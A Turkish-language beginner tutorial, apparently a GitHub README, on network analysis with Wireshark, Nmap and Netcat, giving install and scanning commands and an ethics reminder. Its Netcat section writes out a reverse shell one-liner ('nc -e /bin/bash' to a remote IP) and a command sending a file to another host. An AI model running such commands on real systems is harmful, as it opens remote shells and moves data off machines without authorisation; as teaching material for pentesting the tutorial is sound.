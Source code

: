 ## 📡 Ağları İnceleme (Network Analysis)
Ağları incelemek, ağ trafiğini izlemek, analiz etmek ve güvenlik açıklarını tespit etmek için kullanılan bir süreçtir. Siber güvenlik, penetrasyon testleri ve sistem yönetimi için kritik bir adımdır.

### 📌 1️⃣ Ağ İnceleme Yöntemleri
Ağ analizi için farklı teknikler ve araçlar kullanılır. İşte en yaygın yöntemler:

#### 🔹 1. Pasif Ağ Analizi
Ağa müdahale etmeden sadece trafiği dinleyerek analiz yapma işlemidir. Sniffing (Paket Dinleme) yöntemi ile ağdan geçen veriler incelenir.
- **Araçlar:** Wireshark, tcpdump, Tshark, Ettercap
- **✅ Kullanım Alanları:**
  - Ağ trafiğini izleme
  - Anormal veri akışlarını tespit etme
  - Olası saldırıları analiz etme

#### 🔹 2. Aktif Ağ Analizi
Ağa doğrudan müdahale ederek testler yapma işlemidir. Paket enjeksiyonu, tarama ve pentest teknikleri kullanılır.
- **Araçlar:** Nmap, Netcat, Scapy, Nessus
- **✅ Kullanım Alanları:**
  - Açık portları ve servisleri tespit etme
  - Zafiyet tarama ve güvenlik testi yapma
  - Ağ güvenlik politikalarını denetleme

### 📌 2️⃣ Kullanılan Araçlar ve Teknikler

#### 🔍 1. Wireshark (Paket Analizi)
Wireshark, ağ trafiğini yakalayıp analiz etmek için kullanılan en popüler araçlardan biridir.
##### Linux'ta Kurulum:
```bash
sudo apt install wireshark -y
```
##### Ağ Trafiği Dinleme:
```bash
sudo wireshark
```
Wireshark ile HTTP, DNS, TCP, UDP, ICMP paketlerini analiz edebilirsin.

#### 🔍 2. Nmap (Ağ Tarama ve Keşif)
Nmap, ağ haritası çıkarmak, açık portları bulmak ve sistem bilgilerini toplamak için kullanılan bir araçtır.
##### Linux'ta Kurulum:
```bash
sudo apt install nmap -y
```
##### Ağ Tarama Örnekleri:
- **📌 Tüm açık portları tarama:**
  ```bash
  nmap -p- 192.168.1.1
  ```
- **📌 Ağ üzerindeki cihazları listeleme:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **📌 Hedef sistemde çalışan servisleri tespit etme:**
  ```bash
  nmap -sV 192.168.1.1
  ```

#### 🔍 3. Netcat (Ağ Bağlantı Testi ve Reverse Shell)
Netcat, ağ üzerindeki bağlantıları test etmek ve veri alışverişi yapmak için kullanılır.
- **📌 Hedef sistemin açık olup olmadığını kontrol etme:**
  ```bash
  nc -zv 192.168.1.1 80
  ```
- **📌 Hedef sisteme dosya gönderme:**
  ```bash
  nc 192.168.1.1 4444 < dosya.txt
  ```
- **📌 Reverse Shell oluşturma (Pentest amaçlı):**
  ```bash
  nc -e /bin/bash 192.168.1.100 4444
  ```

### 📌 3️⃣ Ağ Analizi Yaparken Dikkat Edilmesi Gerekenler
🔴 **Etik Kurallar:** Kendi iznin olmayan ağları taramak yasal değildir.
🟢 **Güvenlik Testleri:** Ağ güvenliği testleri için izinli ortamlarda çalışmalısın.
🔴 **Veri Gizliliği:** Ağdaki kullanıcıların kişisel bilgilerini saklamamak ve paylaşmamak gerekir.

### 📌 Özet
✅ **Ağ analizi**, ağın güvenliğini test etmek ve sorunları tespit etmek için kullanılır.
✅ **Wireshark →** Trafik izleme ve analiz
✅ **Nmap →** Açık portları ve ağ cihazlarını tespit etme
✅ **Netcat →** Bağlantı testleri ve veri transferi
✅ **Airodump-ng →** Kablosuz ağları analiz etme
